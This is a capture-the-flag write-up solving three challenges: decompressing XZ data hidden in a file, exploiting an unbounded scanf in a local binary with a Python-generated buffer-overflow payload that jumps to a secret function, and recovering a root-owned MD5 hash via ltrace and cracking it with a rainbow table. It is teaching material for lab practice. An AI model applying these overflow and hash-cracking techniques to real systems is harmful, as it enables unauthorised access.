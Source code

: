 # Ryan CTF: Extreme

### Mystery File

At first look, we can see that the file contains ascii text as well as some binary data. Run `xxd` on the file.

```
00000000: 6861 6861 6861 6861 6861 6861 6861 6861  hahahahahahahaha
00000010: 0a1f 8b08 0006 da58 5a00 03ed d0b1 0ac2  .......XZ.......                   
00000020: 3014 85e1 cc3e 459e 40ee 8d69 06b7 2e71  0....>E.@..i...q                   
00000030: e94b 746a 0721 1023 b46f 6f14 ba38 a84b  .Ktj.!.#.oo..8.K                   
00000040: 28c2 ff2d 67b8 7738 9c78 1da7 6359 8a69  (..-g.w8.x..cY.i                   
00000050: 48aa e0fd 2bab f714 7162 f4e4 5cd0 ce77  H...+...qb..\..w                   
00000060: cf3f 550d de58 6959 6a73 bf95 315b 6b72  .?U..XiYjs..1[kr                   
00000070: 4a1f 47f8 76ff 5371 e82f 673b af53 4e75  J.G.v.Sq./g;.SNu                   
00000080: 8872 d8bb 0f00 0000 0000 0000 0000 0000  .r..............                   
00000090: 0000 e037 0f35 35d1 ef00 2800 00         ...7.55...(..   
````

Let's get rid of the `hahahahahahahaha` part. Through a simple search [here](https://en.wikipedia.org/wiki/List_of_file_signatures), we find out that `XZ` is a compression format.
try to decompress the remaining part with `unxz` to get `FLAG: hygrostat`

### Everyday I'm Bufferin'
We find out that there is a "secret" function at `0804853B` that writes the flag.
Since the called `scanf` doesn't have any limits to reading, we can perform a buffer overflow to overwrite the return address of the `echo` function.
Let's test to see how long is buffer.
`pythoc -c "print 'A'*50" | ./program` will bring us `Segmentation fault (core dumped)`, but `30` or `28` don't. So we've found the maximum length of the buffer.
Let's construct the payload. We need `32 * 'A'` (to cover for `0x1C` length of the buffer and also the old ebp on the stack) and `\x3B\x85\x04\x08` which is the address of the secret function in `little-endian` order.
Run `python -c "print 'A'*32 + '\x3B\x85\x04\x08'" | ./program` to get 
```
You've found the secret function!                                                             
The flag is: bicollateral 
```
Great!


### Strings won't help you...

We have an executable the is owned by root. If we execute it normally, it says `cat: /root/md5.hash: Permission denied` so probably it has something to do with hashing the password
we give and comparing it to the exiting hash in the `md5.hash` file. But how can we possibly find out the contents of the hash file?
First, we need to run the file as `root` let's `sudo ./program`. Now it works perfectly.
Let's try to run `ltrace` on the binary to see what system calls it makes. 

```
popen("cat /root/md5.hash", "r")  = 0x1718010                                                                      
fgets("6499cd1ef35fcb53529488cfa85ab9c6"..., 100, 0x1718010) = 0x7ffd035ec6d0            
--- SIGCHLD (Child exited) ---         
fgets("6499cd1ef35fcb53529488cfa85ab9c6"..., 100, 0x1718010)
printf("Enter the password for the flag:"...)
```

Great, so we have the MD5 `6499cd1ef35fcb53529488cfa85ab9c6`, let's rainbow table it to get `bigbangtheory1`. 
After running it with the correct password, we get
```
You got it! Here's the flag:                          
fumatorium
```